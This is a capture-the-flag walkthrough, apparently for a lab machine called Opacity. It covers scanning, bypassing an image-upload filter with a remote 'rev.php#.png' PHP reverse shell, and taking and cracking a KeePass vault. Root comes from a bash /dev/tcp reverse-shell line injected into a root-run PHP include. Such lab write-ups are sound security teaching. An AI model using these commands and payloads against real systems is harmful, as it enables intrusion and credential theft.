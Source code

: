 Starting with basic ping to make sure that I have a connection to the target.
````
PING 10.10.126.252 (10.10.126.252) 56(84) bytes of data.
64 bytes from 10.10.126.252: icmp_seq=1 ttl=63 time=57.5 ms
64 bytes from 10.10.126.252: icmp_seq=2 ttl=63 time=57.3 ms
64 bytes from 10.10.126.252: icmp_seq=3 ttl=63 time=59.8 ms
64 bytes from 10.10.126.252: icmp_seq=4 ttl=63 time=57.9 ms

--- 10.10.126.252 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 57.339/58.129/59.765/0.965 ms
````

A basic Nmap scan to find out which ports are open.
````
Nmap scan report for 10.10.126.252
Host is up (0.060s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 93.99 seconds
````

I then refined the scan a bit to find out more about the services running on the target.
`sudo nmap -sVC -p22,80,139,445 10.10.126.252`
````
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-11-27T14:39:28
|_  start_date: N/A
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
````

There is a login page in the webserver so that is where I'm going to start as it's the most promising.
I checked the page source but there was nothing. I then tried a few basic usernames and passwords for the login but to no avail.
Decided to brute force for directories with feroxbuster `feroxbuster -u http://10.10.126.252`.
````
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.126.252
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://10.10.126.252/ => login.php
301      GET        9l       28w      314c http://10.10.126.252/cloud => http://10.10.126.252/cloud/
301      GET        9l       28w      321c http://10.10.126.252/cloud/images => http://10.10.126.252/cloud/images/
[####################] - 63s    90006/90006   0s      found:3       errors:35
[####################] - 55s    30000/30000   544/s   http://10.10.126.252/
[####################] - 44s    30000/30000   686/s   http://10.10.126.252/cloud/
[####################] - 46s    30000/30000   649/s   http://10.10.126.252/cloud/images/
````

`/cloud/` allows uploading images via external URLs. As expected there is a filter that only allows image files to be uploaded. 
I used `https://www.revshells.com/` to generate a PHP reverse shell that I can try to upload. 
I named my reverse shell `rev.php#.png` and hosted it with `python3 -m http.server 8082`
````
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
10.10.126.252 - - [27/Nov/2023 17:09:40] "GET /rev.php HTTP/1.1" 404 -
````
The website tries to GET `rev.php` so I renamed the reverse shell `rev.php`
`http://<my_ip>:8082/rev.php#.png` downloads my PHP reverse shell and executes it. I had a listener `ncat -lvnp 1234` that caught the connection.
````
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.126.252:42896.
SOCKET: Shell has connected! PID: 1788
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
````
I went a few directories up and found the `login.php` that has a clear text username and password list for the login page.
The site had pretty much nothing in it sadly.

`cat /etc/passwd | grep -v nologin` checks for users that might have login allowed.
````
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sysadmin:x:1000:1000:sysadmin:/home/sysadmin:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
````

In `sysadmin`s home directory there are a few files I can read but nothing interesting in them.
While checking `/opt` directory I stumbled across `dataset.kdbx` which is a KeePass password vault file.
I could not use SCP to transfer the file so I tried the `/cloud/images` folder. 
So I copied the `dataset.kdbx` to `/var/www/html/cloud/images` and then went to `http://10.10.126.252/cloud/images/dataset.kdbx` to download it.

JohnTheRipper allows us to convert the vault file into a crackable format with `keepass2john dataset.kdbx > hash` .
`john --wordlist=/usr/share/wordlists/rockyou.txt hash` finds the right password for the vault.
I looked at what could I use to open the vault file and found `kpcli`. A `config.ini` file needed to be set to point to the `dataset.kdbx`.


````
kpcli ls --entries
UNLOCKING...

Database password:
================================================================================
Root
================================================================================
user:password
````

````
kpcli get user:password

UNLOCKING...

Database password:
================================================================================
Root/user:password
================================================================================
name: Root/user:password
username: sysadmin
password: **********************
URL:
Notes:
````

````
kpcli cp user:password
UNLOCKING...

Database password:
Entry: Root/user:password
````
Finally, we have the password for `sysadmin` user. Let's try to SSH as `sysadmin` to the target.
````
sysadmin@opacity:~$ id
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),24(cdrom),30(dip),46(plugdev)
````
We don't have permission to run anything as root but there is `scripts` folder in the user's home folder.
`script.php` has the line `require_once('lib/backup.inc.php');`. `sysadmin` is the owner of the `lib` folder so we can replace the `backup.inc.php` file.
I copied the file to `/home/sysadmin` and added the line `exec("/bin/bash -c 'bash -i > /dev/tcp/your_ip/1234 0>&1'");` to it.
First I had to remove the old file from the folder as it was write-protected. I then copied the file I edited to the original location.
Again, started an Ncat listener with `ncat -lvnp 1234` to catch the incoming connection.
````
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.126.252:36842.
id
uid=0(root) gid=0(root) groups=0(root)
````





